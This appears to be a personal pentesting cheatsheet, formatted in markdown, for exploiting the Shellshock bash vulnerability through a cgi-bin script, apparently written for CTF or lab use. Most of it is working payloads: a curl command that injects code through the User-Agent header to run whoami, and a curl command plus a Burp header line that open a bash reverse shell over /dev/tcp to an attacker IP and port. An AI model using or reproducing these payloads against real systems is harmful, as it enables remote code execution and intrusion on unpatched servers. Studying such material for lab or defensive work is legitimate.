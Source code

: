 ```yaml
---
title: Cheatsheet - Shellshock 
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/shell-shock]
img_path: /Cheatsheet/Web/Shellshock via cgi-bin/images
---
```


# Test
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<MACHINE-IP>/cgi-bin/test.cgi
```

# Exploit
- Obtain shell
	```
	curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1' http://10.10.234.83/cgi-bin/test.cgi

	#Burp:
	User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1
	```

# Some Example
- [[0day#Exploiting Shell Shock Reverse Shell User flag]]



